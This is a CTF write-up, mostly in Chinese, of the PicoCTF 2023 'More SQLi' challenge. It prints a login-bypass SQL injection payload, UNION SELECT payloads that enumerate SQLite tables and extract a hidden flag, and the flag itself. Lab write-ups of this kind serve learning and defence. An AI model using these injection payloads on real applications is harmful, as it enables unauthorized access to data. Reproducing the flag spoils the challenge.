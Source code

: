 # PicoCTF - More SQLi
## Background
* [Feifei Lab](https://lab.feifei.tw/practice/sqli/sql4.php)
* Hint SQLiLite

## Recon
先隨便輸入發現他很貼心有給完整的payload，發現他是先檢查password，在沒有任何防護的情況下，直接用最經典的payload就可了
Account: Any
Password: `' or '1'='1' -- #`
![](https://hackmd.io/_uploads/rJXd-oLd3.png)

---
![](https://hackmd.io/_uploads/Bki0WoLd3.png)
## Exploit - SQLi(Union Selection)
現在的目標是flag應該是藏在別的table，所以先找甚麼table
1. 找table
透過[Kaibro的cheat sheet](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)，SQLite的爆破payload是`SELECT name FROM sqlite_master WHERE type='table'`，而目前我們可以用union based的方式搜尋，先觀察搜尋`Algiers`的搜尋column有三個，第一個column是chr，第二個column是chr，第三個是int，所以在用union select的時候要遵守<font color="FF0000">**查詢數量一樣、每個欄位的型態一樣**</font>
Payload: `Algiers' union SELECT sql,sql,1 FROM sqlite_master WHERE type='table'; --`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/rk9G4oLO2.png)
    :::
2. Find Flag - Union based
目前發現有兩個table比較可疑
    * CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
    * CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
    
    可以直接用前面同樣的方式找flag，觀察這個table只有兩個column，且一個column的type是int，另外一個是text，而第三個column就隨便填
    Payload: `Algiers' union SELECT id,flag,1 FROM more_table; --`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/ryonEoIdn.png)
    :::
    Flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}`
## Reference
[ picoCTF 2023 More SQLi ](https://youtu.be/W1EjP6OFpUQ)
[Kaibro - SQLi](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)
[Feifei Lab](https://lab.feifei.tw/practice/sqli/sql4.php)